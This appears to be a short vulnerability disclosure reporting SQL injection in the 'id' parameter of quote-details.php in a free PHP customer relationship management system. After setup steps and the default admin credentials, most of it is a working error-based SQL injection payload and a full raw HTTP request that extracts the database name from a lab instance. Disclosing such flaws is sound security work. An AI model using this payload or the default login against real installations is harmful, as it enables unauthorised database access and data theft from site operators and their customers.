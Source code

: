 # Simple Customer Relationship Management (CRM) System has SQLI in /php-scrm/admin/quote-details.php
Author:Top-Zxp

vendors:https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named scrm_db.
-   Import the provided SQL file. The file is known as scrm_db.sql located inside the database folder.
-   Browse the Simple Customer Relationship Management (CRM) System in a browser. i.e. http://localhost/php-scrm/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload
database:scrm_db

[+] Payload:php-scrm/admin/quote-details.php?1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+

GET /php-scrm/admin/quote-details.php?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+ HTTP/1.1
Host: 192.168.248.137
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.248.137/php-scrm/admin/quote-details.php?id=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lf9l068kt6hkbqhcettmhr0o3p
Connection: close

